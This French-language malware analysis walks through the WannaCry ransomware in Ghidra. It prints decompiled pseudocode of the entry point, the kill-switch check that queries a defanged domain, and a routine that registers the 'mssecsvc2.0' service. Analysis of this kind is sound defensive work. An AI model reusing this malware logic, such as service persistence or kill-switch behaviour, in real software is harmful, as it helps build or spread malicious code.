

Pas de fonction main mais une fonction entry dans la liste des fonctions de ghidra



La fonction entry ressemble à ceci, seul la dernière ligne est essentielle car c'est la fonction main qui s'appelle `FUN_00408140()` mais qui sera renommée dans l'avenir en `wWinMain()` car c'est comme cela que s'appelle [le point d'entrée des applications en C++](https://learn.microsoft.com/fr-fr/windows/win32/learnwin32/winmain--the-application-entry-point "WinMain : point d’entrée de l’application").

```C
void entry(void)

{
  undefined4 *puVar1;
  uint uVar2;
  HMODULE pHVar3;
  byte *pbVar4;
  undefined4 uVar5;
  char **local_74;
  _startupinfo local_70;
  int local_6c;
  char **local_68;
  int local_64;
  _STARTUPINFOA local_60;
  undefined *local_1c;
  void *pvStack_14;
  undefined *puStack_10;
  undefined *puStack_c;
  undefined4 local_8;
  
  puStack_c = &DAT_0040a1a0;
  puStack_10 = &DAT_00409ba2;
  pvStack_14 = ExceptionList;
  local_1c = &stack0xffffff78;
  local_8 = 0;
  ExceptionList = &pvStack_14;
  __set_app_type(2);
  _DAT_0070f894 = 0xffffffff;
  _DAT_0070f898 = 0xffffffff;
  puVar1 = __p__fmode();
  *puVar1 = DAT_0070f88c;
  puVar1 = __p__commode();
  *puVar1 = DAT_0070f888;
  _DAT_0070f890 = *_adjust_fdiv_exref;
  FUN_00409ba1();
  if (_DAT_00431410 == 0) {
    __setusermatherr(&LAB_00409b9e);
  }
  FUN_00409b8c();
  _initterm(&DAT_0040b00c,&DAT_0040b010);
  local_70.newmode = DAT_0070f884;
  __getmainargs(&local_64,&local_74,&local_68,_DoWildCard_0070f880,&local_70);
  _initterm(&DAT_0040b000,&DAT_0040b008);
  pbVar4 = *_acmdln_exref;
  if (*pbVar4 != 0x22) {
    do {
      if (*pbVar4 < 0x21) goto LAB_00409b09;
      pbVar4 = pbVar4 + 1;
    } while( true );
  }
  do {
    pbVar4 = pbVar4 + 1;
    if (*pbVar4 == 0) break;
  } while (*pbVar4 != 0x22);
  if (*pbVar4 != 0x22) goto LAB_00409b09;
  do {
    pbVar4 = pbVar4 + 1;
LAB_00409b09:
  } while ((*pbVar4 != 0) && (*pbVar4 < 0x21));
  local_60.dwFlags = 0;
  GetStartupInfoA(&local_60);
  if ((local_60.dwFlags & 1) == 0) {
    uVar2 = 10;
  }
  else {
    uVar2 = local_60.wShowWindow;
  }
  uVar5 = 0;
  pHVar3 = GetModuleHandleA(0x0);
  local_6c = FUN_00408140(pHVar3,uVar5,pbVar4,uVar2);
                    /* WARNING: Subroutine does not return */
  exit(local_6c);
}
```

Aussi, j'en profite pour ajouter à cette fonction `wWinMain()` ses paramètres qui sont trouvable dans la documentation de Microsoft:

```C
int WINAPI wWinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, PWSTR pCmdLine, int nCmdShow);
```

Ensuite, la fonction `wWinMain()` est la suivante:

```C
undefined4 WinMain(void)

{
  undefined4 uVar1;
  int iVar2;
  undefined4 *puVar3;
  undefined4 *puVar4;
  undefined4 uStack_64;
  undefined4 uStack_60;
  undefined4 uStack_5c;
  undefined4 local_50 [14];
  undefined4 local_17;
  undefined4 local_13;
  undefined4 local_f;
  undefined4 local_b;
  undefined4 local_7;
  undefined2 local_3;
  undefined local_1;
  
  puVar3 = s_http://www.iuqerfsodp9ifjaposdfj_004313d0;
  puVar4 = local_50;
  for (iVar2 = 0xe; iVar2 != 0; iVar2 = iVar2 + -1) {
    *puVar4 = *puVar3;
    puVar3 = puVar3 + 1;
    puVar4 = puVar4 + 1;
  }
  *puVar4 = *puVar3;
  local_17 = 0;
  local_13 = 0;
  local_f = 0;
  local_b = 0;
  local_7 = 0;
  local_3 = 0;
  uStack_5c = 0;
  uStack_60 = 0;
  uStack_64 = 0;
  local_1 = 0;
  uVar1 = InternetOpenA(0,1);
  iVar2 = InternetOpenUrlA(uVar1,&uStack_64,0,0,0x84000000,0);
  if (iVar2 == 0) {
    InternetCloseHandle(uVar1);
    InternetCloseHandle(0);
    FUN_00408090();
    return 0;
  }
  InternetCloseHandle(uVar1);
  InternetCloseHandle(iVar2);
  return 0;
}
```

Ici, on trouve l'url "http://www.iuqerfsodp9ifjaposdfjhgosurijfaewrwergwea\[.\]com" qui est l'url kill switch découverte par Marcus et qui a permit d'arrêter la propagation du ransomware en achetant ce nom de domaine.

Dans cette fonction, je trouve aussi les fonctions `InternetOpenA`, `InternetOpenUrlA` et `InternetCloseHandle`. Auxquelles je mets à jour leurs signatures pour y voir un peu plus clair.

Pour `InternetOpenA`:

```C
HINTERNET InternetOpenA(
  LPCSTR lpszAgent,
  DWORD  dwAccessType,
  LPCSTR lpszProxy,
  LPCSTR lpszProxyBypass,
  DWORD  dwFlags
);
```

Pour `InternetOpenUrlA`:

```C
HINTERNET InternetOpenUrlA(
  HINTERNET hInternet,
  LPCSTR    lpszUrl,
  LPCSTR    lpszHeaders,
  DWORD     dwHeadersLength,
  DWORD     dwFlags,
  DWORD_PTR dwContext
);
```

Pour `InternetCloseHandle`:

```C
BOOL InternetCloseHandle(
  HINTERNET hInternet
);
```

Néanmoins, HINTERNET n'est pas un type de données conventionnel, je dois donc l'ajouter manuellement et je lui attribue le type `void *` . Pour être franc, je ne sais pas pourquoi il faut lui attribuer ce type.

Maintenant la fonction `FUN_00408090()`:

```C
void FUN_00408090(void)

{
  int *piVar1;
  SC_HANDLE hSCManager;
  SC_HANDLE hSCObject;
  SERVICE_TABLE_ENTRYA SStack_10;
  undefined4 uStack_8;
  undefined4 uStack_4;
  
  GetModuleFileNameA(0x0,&lpFilename_0070f760,0x104);
  piVar1 = __p___argc();
  if (*piVar1 < 2) {
    FUN_00407f20();
    return;
  }
  hSCManager = OpenSCManagerA(0x0,0x0,0xf003f);
  if (hSCManager != 0x0) {
    hSCObject = OpenServiceA(hSCManager,s_mssecsvc2.0_004312fc,0xf01ff);
    if (hSCObject != 0x0) {
      FUN_00407fa0(hSCObject,0x3c);
      CloseServiceHandle(hSCObject);
    }
    CloseServiceHandle(hSCManager);
  }
  SStack_10.lpServiceName = s_mssecsvc2.0_004312fc;
  SStack_10.lpServiceProc = &LAB_00408000;
  uStack_8 = 0;
  uStack_4 = 0;
  StartServiceCtrlDispatcherA(&SStack_10);
  return;
}
```